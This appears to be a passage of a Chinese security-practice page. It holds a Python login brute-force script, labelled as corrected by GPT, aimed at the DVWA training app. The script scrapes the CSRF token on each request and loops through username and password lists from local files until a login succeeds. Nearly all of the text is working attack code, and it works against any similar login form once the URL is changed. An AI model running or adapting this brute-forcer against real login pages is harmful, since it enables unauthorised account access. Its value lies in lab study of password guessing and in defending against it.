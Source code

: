 ```python
        if "You have logged in as" in response2.text:
            print(f"登录成功: 用户名 - {username.strip()} 密码 - {password.strip()}")
            sys.exit()
        else:
            print(f"登录失败: 用户名 - {username.strip()} 密码 - {password.strip()}")
```

## GPT修正版-DVWA登录爆破

```python
import sys
import requests
import re

url = 'http://10.1.10.1/login.php'
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0'
}

# 使用Session对象复用同一会话
session = requests.Session()

try:
    # 读取用户名
    with open(r'.\user.txt', 'r') as username_file:
        usernames = username_file.read().splitlines()
    # 读取密码
    with open(r'.\pass.txt', 'r') as password_file:
        passwords = password_file.read().splitlines()

    # 对每对用户名和密码尝试登录
    for username in usernames:
        for password in passwords:
            response1 = session.get(url, headers=headers)
            user_token_match = re.search(r'[0-9a-z]{32}', response1.text)

            if user_token_match:
                user_token = user_token_match.group()
            else:
                print('Token未找到，跳过登录尝试。')
                continue

            data = {
                'username': username,
                'password': password,
                'Login': 'Login',
                'user_token': user_token
            }
            
            response2 = session.post(url, data=data, headers=headers)

            if "You have logged in as" in response2.text:
                print(f"登录成功: 用户名 - {username} 密码 - {password}")
                sys.exit()
            else:
                print(f"登录失败: 用户名 - {username} 密码 - {password}")
except Exception as e:
    print(f"发生错误: {e}")
    sys.exit(1)

```


